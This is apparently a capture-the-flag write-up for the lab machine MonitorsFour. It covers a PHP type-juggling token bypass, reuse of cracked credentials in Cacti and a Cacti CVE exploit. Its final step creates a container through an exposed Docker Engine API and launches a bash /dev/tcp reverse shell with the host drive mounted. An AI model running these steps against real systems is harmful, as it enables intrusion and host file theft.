# MonitorsFour

Difficulty: Easy
OS: Windows
Category: Offensive
Date: 2026-01-30
Added: 2026-10-01


I investigated weak token validation, reused recovered credentials in Cacti, and reached host files through an exposed Docker Engine API.

## Scanning
I used RustScan to find open ports and pass the results to Nmap. This scan identified HTTP on port 80 and WinRM on port 5985:
```bash
 rustscan -a 10.129.7.152 -b 500
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/m3m0rydmp/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 924'.
Open 10.129.7.152:80
Open 10.129.7.152:5985
[~] Starting Script(s)
[~] Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-30 07:57 -0500
Initiating Ping Scan at 07:57
Scanning 10.129.7.152 [4 ports]
Completed Ping Scan at 07:57, 0.15s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 07:57
Scanning monitorsfour.htb (10.129.7.152) [2 ports]
Discovered open port 80/tcp on 10.129.7.152
Discovered open port 5985/tcp on 10.129.7.152
Completed SYN Stealth Scan at 07:57, 0.26s elapsed (2 total ports)
Nmap scan report for monitorsfour.htb (10.129.7.152)
Host is up, received echo-reply ttl 127 (0.14s latency).
Scanned at 2026-01-30 07:57:51 EST for 0s

PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 127
5985/tcp open  wsman   syn-ack ttl 127

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)

```

The website used the hostname `monitorsfour.htb`, which my machine could not initially resolve. I added it to `/etc/hosts`:
```bash
<Machine IP>    monitorsfour.htb
```
## Web Enumeration
The landing page linked to a login form in the top-right corner.


I found no registration form, so I tried **Forgot password**. Submitting an invalid email produced a generic response saying a message would be sent if the account existed.


Directory enumeration revealed additional endpoints to investigate.


I also found an exposed `.env` file. I recorded its database configuration, although these credentials were not used in the path below:
```bash
DB_HOST=mariadb
DB_PORT=3306
DB_NAME=monitorsfour_db
DB_USER=monitorsdbuser
DB_PASS=f37p2j8f4t0r
```
The `/user` endpoint responded but required a token. I set it aside temporarily and enumerated virtual hosts:
```bash
ffuf -c -u 'http://monitorsfour.htb/' -H "Host: FUZZ.monitorsfour.htb" -w /usr/share/seclists/Discovery/DNS/subdomains/subdomains-top1million-20000.txt
```
The result identified `cacti.monitorsfour.htb`, which I added to `/etc/hosts`:
```bash
<Machine IP>    monitorsfour.htb cacti.monitorsfour.htb
```
I didn't yet have credentials for Cacti, but I noted the version displayed on its login page.

I returned to the `/user` endpoint to investigate its token check.

## Type Juggling
While intercepting requests in Burp Suite, I noticed differences in the endpoint's responses.

I considered a loose-comparison issue. PHP's `==` operator can compare values after type conversion, whereas `===` also checks their types. PHP 8 changed some string-to-number comparisons, but the exact behavior still depends on the operands; it does not eliminate every type-juggling case. I used the [PHP comparison documentation](https://www.php.net/manual/en/language.operators.comparison.php) as a reference rather than assuming the server-side code from the response alone.



A random token produced **Invalid or Missing Token**, unlike the earlier response.

I tested the following candidate values to look for differences in how the token was validated:
```txt
0
1
-1
0e1234
00
0x0
0x1
null
NULL

true
false
[]
{}
```


Three test values produced distinct responses in the captured results. I reused `0e1234` in `/user?token=0e1234`, as shown below. These results suggested weak token validation; I had not inspected the backend comparison itself.

The response exposed user records, including password hashes. I identified the hashes as MD5 and recovered the admin password with Hashcat:
`admin:wonderful1`
The admin record also listed the name **Marcus**. I kept that as a candidate username and first used the recovered password on the main website.

The main dashboard did not provide a useful next step. At the Cacti login, `admin:wonderful1` failed, but `marcus:wonderful1` worked.

## User
### CVE-2025-24367
I investigated Cacti's version and used the linked [CVE-2025-24367 proof of concept](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC) with the recovered credentials.
I started a Netcat listener before running the proof of concept, then supplied my callback address and port. The screenshot records the invocation I used.

The resulting shell let me retrieve the user flag.

## Root
Although the target was classified as Windows, the shell landed in a Linux container. I inspected `/etc/resolv.conf` and the internal name resolution to understand the environment.
The following results helped me map the container network:

The internal service name `mariadb` resolved to `172.18.0.3`. My Cacti container used `172.18.0.2`, and the bridge gateway was `172.18.0.1`:

```
Container (Cacti) ---> 172.18.0.2
Docker (MariaDB) ---> 172.18.0.3
Bridge Gateway ---> 172.18.0.1
```
## Internal Scanning
I used [fscan](https://github.com/shadow1ng/fscan) from inside the container to identify reachable internal services.

The results pointed to an exposed Docker Engine API. This matched the behavior described in [Docker's CVE-2025-9074 advisory](https://docs.docker.com/security/security-announcements/#docker-desktop-4443-security-update-cve-2025-9074): a container could reach the engine and create additional containers, potentially exposing host files.

My next step was to test that API and use a bind mount to access files from the Windows host.
In this environment, the Docker API was reachable at `192.168.65.7:2375`. I could send HTTP requests directly instead of using the Docker CLI.

I confirmed API access with a request to `/version`:
```bash
www-data@821fbd6a43fa:/tmp$ curl http://192.168.65.7:2375/version
curl http://192.168.65.7:2375/version
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   852    0   852    0     0  24933      0 --:--:-- --:--:-- --:--:-- 25058
{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"28.3.2","Details":{"ApiVersion":"1.51","Arch":"amd64","BuildTime":"2025-07-09T16:13:55.000000000+00:00","Experimental":"false","GitCommit":"e77ff99","GoVersion":"go1.24.5","KernelVersion":"6.6.87.2-microsoft-standard-WSL2","MinAPIVersion":"1.24","Os":"linux"}},{"Name":"containerd","Version":"1.7.27","Details":{"GitCommit":"05044ec0a9a75232cad458027ca83437aae3f4da"}},{"Name":"runc","Version":"1.2.5","Details":{"GitCommit":"v1.2.5-0-g59923ef"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":"de40ad0"}}],"Version":"28.3.2","ApiVersion":"1.51","MinAPIVersion":"1.24","GitCommit":"e77ff99","GoVersion":"go1.24.5","Os":"linux","Arch":"amd64","KernelVersion":"6.6.87.2-microsoft-standard-WSL2","BuildTime":"2025-07-09T16:13:55.000000000+00:00"}
```
The unauthenticated response established that the API was reachable. I then used it to:
- Create a container from an image already present on the engine.
- Bind-mount `/mnt/host/c` at `/host_root` inside that container.
- Start a reverse shell and inspect the host files exposed by that mount.


I started a listener on `10.10.15.1:9001`, then created a container with the following request. This request uses a bind mount; it does not set Docker's `Privileged` option. The response is saved in `create.json` and contains the new container's `Id`.
```bash
curl -H 'Content-Type: application/json' \
  -d '{
    "Image": "docker_setup-nginx-php:latest",
    "Cmd": ["/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.1/9001 0>&1"],
    "HostConfig": {
      "Binds": ["/mnt/host/c:/host_root"]
    }
  }' \
  -o create.json \
  http://192.168.65.7:2375/containers/create
```
I started the container using the `Id` returned by that request. The ID below is from my recorded run:
```bash
curl -d '' "http://192.168.65.7:2375/containers/1e4ee238bde1d95f84869b93fa56135253c1400592c5f7dc81a9464d38a2297c/start"
```
I also checked the container's logs while waiting for the connection:
```bash
curl -s "http://192.168.65.7:2375/containers/1e4ee238bde1d95f84869b93fa56135253c1400592c5f7dc81a9464d38a2297c/logs?stdout=1&stderr=1"
```
My listener received the reverse shell.



The shell ran as **root inside the new Linux container**. The bind mount exposed Windows host files beneath `/host_root`, where I read `/host_root/Users/Administrator/Desktop/root.txt`. This demonstrates access to host files through Docker; it does not establish that the shell itself ran as Windows SYSTEM.

